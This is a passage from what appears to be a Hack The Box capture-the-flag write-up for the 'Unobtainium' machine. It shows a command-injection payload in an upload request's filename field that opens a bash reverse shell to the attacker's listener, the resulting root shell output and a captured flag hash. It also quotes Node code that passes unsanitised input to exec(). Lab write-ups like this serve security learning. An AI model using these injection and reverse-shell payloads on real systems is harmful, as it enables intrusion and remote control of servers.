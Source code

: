REVERSE REQUEST:
  POST /upload HTTP/1.1
  Host: unobtainium.htb:31337
  ..
  {"auth":{"name":"felamos","password":"Winter2021"},"filename":"$(/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.6/4488 0>&1')"}

  [root:/git/htb/unobtainium]# nc -lvnp 4488                                                                                        (master✱)
    listening on [any] 4488 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.235] 57590
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    root@webapp-deployment-5d764566f4-lrpt9:/usr/src/app# id
      uid=0(root) gid=0(root) groups=0(root)

It seems like we are in a docker hence the root user. Grab user.txt and take a break.

  root@webapp-deployment-5d764566f4-lrpt9:/usr/src/app# cat /root/user.txt
    f7dabc890c1a2249b31d4ef6a1ab5c4d


QUICK USER SHELL:
  curl -v -X PUT unobtainium.htb:31337 -H "Content-Type: application/json" -d "@user-upload.json"
  curl -v -X POST unobtainium.htb:31337/upload -H "Content-Type: application/json" -d "@user-reverse.json"


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. When enumerating the box manually I came across the file containing the upload function, and within we can clearly see
it why our bash variable substitution worked (hint exec()).

<src/app/node_modules/google-cloudstorage-commands# cat index.js
  const exec = require('child_process').exec
  const path = require('path')
  const P = (() => {
  ..
    function upload(inputDirectory, bucket, force = false) {
        return new Promise((yes, no) => {
            let _path = path.resolve(inputDirectory)
            let _rn = force ? '-r' : '-Rn'
            let _cmd = exec(`gsutil -m cp ${_rn} -a public-read ${_path} ${bucket}`)
            _cmd.on('exit', (code) => {
                yes()
            })
        })
    }
